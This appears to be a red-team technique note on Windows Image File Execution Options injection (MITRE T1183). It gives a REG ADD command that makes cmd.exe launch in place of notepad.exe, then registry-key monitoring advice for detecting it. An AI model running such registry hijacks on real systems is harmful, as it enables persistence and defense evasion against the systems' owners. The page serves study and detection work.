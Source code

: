 ```yaml
---
layout: post
title: "2024-06-18-t1183 image file execution options injection"
date: 2024-06-18
categories: privilege-escalation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1183-image-file-execution-options-injection/
---
```


---
description: 'Defense Evasion, Persistence, Privilege Escalation'
---

# Image File Execution Options Injection

## Execution

Modifying registry to set cmd.exe as notepad.exe debugger, so that when notepad.exe is executed, it will actually start cmd.exe:

{% code title="attacker@victim" %}
```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```
{% endcode %}

Launching a notepad on the victim system:

![](../../.gitbook/assets/ifeo-notepad.png)

Same from the cmd shell:

![](../../.gitbook/assets/ifeo-notepad2.png)

## Observations

Monitoring command line arguments and events modifying registry keys: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting this attack:

![](../../.gitbook/assets/ifeo-cmdline.png)

![](../../.gitbook/assets/ifeo-cmdline2.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1183" %}

{% embed url="https://blogs.msdn.microsoft.com/mithuns/2010/03/24/image-file-execution-options-ifeo/" %}

{% embed url="https://blogs.msdn.microsoft.com/reiley/2011/07/29/a-debugging-approach-to-ifeo/" %}

@spotheplanet
